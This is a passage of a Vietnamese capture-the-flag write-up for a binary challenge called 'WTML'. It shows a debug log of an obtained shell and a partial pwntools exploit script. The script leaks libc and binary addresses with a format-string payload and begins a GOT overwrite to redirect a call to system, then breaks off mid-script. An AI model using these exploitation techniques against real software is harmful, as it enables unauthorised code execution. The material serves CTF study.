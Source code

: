 ```java
[DEBUG] Received 0x23 bytes:
    00000000  73 68 3a 20  31 3a 20 63  61 6e 6e 6f  74 20 6f 70  │sh: │1: c│anno│t op│
    00000010  65 6e 20 01  3a 20 4e 6f  20 73 75 63  68 20 66 69  │en ·│: No│ suc│h fi│
    00000020  6c 65 0a                                            │le·│
    00000023
sh: 1: cannot open : No such file
[DEBUG] Received 0x19 bytes:
    b'sh: 1: %29%53: not found\n'
sh: 1: %29%53: not found
[DEBUG] Received 0x19 bytes:
    b'sh: 1: Please: not found\n'
sh: 1: Please: not found
[DEBUG] Received 0x30 bytes:
    b'sh: 1: Syntax error: Unterminated quoted string\n'
sh: 1: Syntax error: Unterminated quoted string
$ ls
[DEBUG] Sent 0x3 bytes:
    b'ls\n'
[DEBUG] Received 0x76 bytes:
    b'Dockerfile  challenge.c        ld-2.31.so    libc.so.6\twtml.zip\n'
    b'challenge   challenge_patched  libc-2.31.so  solve.py\n'
Dockerfile  challenge.c        ld-2.31.so    libc.so.6    wtml.zip
challenge   challenge_patched  libc-2.31.so  solve.py
$
```
Đấy =)) lỗi syntax error đấy, do mấy cái chuỗi k hợp lệ rồi, nhưng mà dù sao cũng đã tạo được shell =))

**full script :**
```python
from pwn import *
exe = ELF('./challenge_patched', checksec=False)
libc = ELF('./libc-2.31.so', checksec=False)
payload = b'%29$p%53$p'
payload += b'<\0>'
payload = payload.ljust(30, b"A")
payload += b'</'

p = process(exe.path)
input()
# round 1
p.sendafter(b'WTML!\n', payload)
p.sendlineafter(b'quit]?\n', b"\0")
p.sendlineafter(b'tag?\n', b"\x01")
# round 2
p.recvuntil(b'</\x01')
Unknow_leak = u64(p.recv(6)+ b'\0\0')
log.info('leak :' + hex(Unknow_leak))
p.sendlineafter(b'quit]?\n', b"A")
p.sendlineafter(b'tag?\n', b"B")

p.recvuntil(b'[DEBUG] ')
exe_leak = int(p.recv(14),16)
libc_leak = int(p.recv(14),16)
log.info('libc_leak :' + hex(libc_leak))
libc.address = libc_leak - 147587
log.info('libc_base :'+ hex(libc.address))
log.info('exe_leak :' + hex(exe_leak))
exe.address = exe_leak - 4384
log.info('exe_base :'+ hex(exe.address))

# overwrite got
system = libc.sym['system'] >> 8 & 0xffff
payload = f'%{system}c%10$hn'.encode()
```